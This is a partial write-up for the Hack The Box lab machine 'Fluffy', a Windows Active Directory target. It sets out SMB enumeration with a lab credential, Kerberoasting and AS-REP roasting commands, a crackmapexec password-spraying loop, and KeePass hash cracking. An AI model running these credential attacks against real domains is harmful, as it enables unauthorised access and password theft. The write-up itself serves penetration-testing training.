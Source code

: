 # **HTB Fluffy Write-Up: Progress Summary**

### **Machine Overview**
- **Name**: Fluffy  
- **OS**: Windows (Active Directory)  
- **Difficulty**: Easy  
- **Key Techniques**: Kerberoasting, SMB Enumeration, KeePass Exploitation, Certificate Abuse  

---

## **Steps Taken So Far**

### **1. Initial Enumeration**
#### **SMB Share Discovery**
- Used `smbclient` and `nxc` to explore shares:
  ```bash
  smbclient -L //10.10.11.69 -U 'fluffy.htb\j.fleischman%J0elTHEM4n1990!'
  ```
- Found **IT share** with write access:
  ```
  Everything-1.4.1.1026.x64.zip  
  KeePass-2.58.zip  
  Upgrade_Notice.pdf  
  ```

#### **Kerberoasting Attempt**
- Requested TGS tickets for service accounts:
  ```bash
  impacket-GetUserSPNs fluffy.htb/j.fleischman:'J0elTHEM4n1990!' -dc-ip 10.10.11.69 -request -outputfile kerb_hashes.txt
  ```
- **Service Accounts Found**:
  - `ca_svc` (AD Certificate Services)
  - `winrm_svc` (WinRM Service)
  - `ldap_svc` (LDAP Service)

- **Cracking Attempts**:
  - Ran `hashcat` with `rockyou.txt` → **No success**.
  - Tried custom wordlists (e.g., `Fluffy2025!`, `P@ssw0rd123`) → **Still no crack**.

---

### **2. Exploring Alternative Paths**
#### **Everything Search Tool Analysis**
- Extracted strings from `everything.exe`:
  ```bash
  strings everything.exe | grep -i "c:\\\\users\\\\" > paths.txt
  ```
- **Goal**: Find KeePass database paths (e.g., `C:\Users\Administrator\Documents\Passwords.kdbx`).

#### **KeePass Exploitation**
- Extracted `KeePass-2.58.zip`:
  ```bash
  unzip KeePass-2.58.zip
  ```
- Searched for KeePass configs:
  ```bash
  grep -r "RecentFiles" KeePass-2.58/
  ```
- **If found**: Use `keepass2john` to extract hashes.
- 
---

### **3. Next Steps**
#### **If Kerberoasting Fails**
1. **Password Spraying** (Try common service account passwords):
   ```bash
   for user in ca_svc winrm_svc ldap_svc; do
       for pass in 'Fluffy@2025!' 'P@ssw0rd123' 'Service123!'; do
           crackmapexec winrm 10.10.11.69 -u $user -p $pass -d fluffy.htb
       done
   done
   ```

2. **Check for AS-REP Roastable Accounts**:
   ```bash
   impacket-GetNPUsers fluffy.htb/ -usersfile users.txt -dc-ip 10.10.11.69
   ```

#### **If KeePass Database is Found**
1. **Extract Hash**:
   ```bash
   keepass2john Passwords.kdbx > keepass.hash
   hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt
   ```

2. **Open KeePass DB** (If cracked):
   ```bash
   kpcli --kdb Passwords.kdbx --keyfile keyfile.key
   ```
---

## **Conclusion**
### **Current Status**
- **Kerberoasting**: Hashes obtained but not cracked yet.
- **KeePass Database**: Still searching for `.kdbx` file.

### **Next Moves**
1. **Find KeePass DB** (Check `C:\Users\*\AppData\Local\Everything\*.db`).
2. **Password Spraying** (Try `winrm_svc` with common passwords).
